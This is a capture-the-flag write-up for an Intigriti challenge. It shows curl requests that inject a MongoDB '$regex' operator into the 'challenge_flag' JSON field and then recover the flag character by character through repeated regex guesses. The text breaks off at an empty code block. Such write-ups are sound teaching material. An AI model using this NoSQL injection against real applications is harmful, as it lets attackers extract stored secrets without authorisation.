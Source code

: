 ![](Images/copycurl.png)
The unmodified curl request looks like this:
```
curl 'https://ctfc.ctf.intigriti.io/submit_flag' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://ctfc.ctf.intigriti.io/' -H 'Content-Type: application/json' -H 'Origin: https://ctfc.ctf.intigriti.io' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: session=eyJ1c2VyIjp7Il9pZCI6ImI5MTk2YjgzYjZlZDQ1ZTZiOGVjMTM3YTcxNTRmNmViIiwidXNlcm5hbWUiOiJhc2RmIn19.ZVeEiA.I5nW0lG2m4QufY4UuiKTpLmNqBM' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"_id":"_id:1","challenge_flag":"CTFC{cryptocat}"}'
```
To modify, we insert new JSON into the key for "correct_flag", so that regex may be applied:
```json
"challenge_flag":{"$regex":".*"}
```
We can confirm this works by checking regex with the flag header and brackets that we already know:
```
curl 'https://ctfc.ctf.intigriti.io/submit_flag' -X POST -H 'Us  
er-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0' -H 'Accept  
: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Refe  
rer: https://ctfc.ctf.intigriti.io/' -H 'Content-Type: application/json' -H 'Origin: https:/  
/ctfc.ctf.intigriti.io' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: session=eyJ1c2Vy  
Ijp7Il9pZCI6ImI5MTk2YjgzYjZlZDQ1ZTZiOGVjMTM3YTcxNTRmNmViIiwidXNlcm5hbWUiOiJhc2RmIn19.ZVeEiA.  
I5nW0lG2m4QufY4UuiKTpLmNqBM' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fe  
tch-Site: same-origin' --data-raw '{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{.*}"  
}}'  
correct flag!
```
The response is correct flag! At this point it is probably better to just write a script to guess all combinations, or we can be mildly clever and do it manually with the slight help of extra regex. We can start by seeing if the first bracket char is lowercase by guessing `[a-z]`, or all lowercase chars between a and z:
```
curl 
<...SNIP...>
--data-raw '{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{[a-z].*}"}}'  
correct flag!
```
We can guess half the alphabet, to narrow down which letter it might be:
```
'{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{[a-m].*}"}}'  
correct flag!
```
After a couple more guesses, we narrowed down the range to 4 characters, a much easier guess than 26+:
```
'{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{[g-k  
].*}"}}'
correct flag!
```
The first letter is `h`, so in only ~6 guesses we managed to guess a letter. Pretty good, considering there are 26 possibilities in lowercase alone! Now we can repeat the process, keeping the 1st char as h and guessing the 2nd one:
```
```
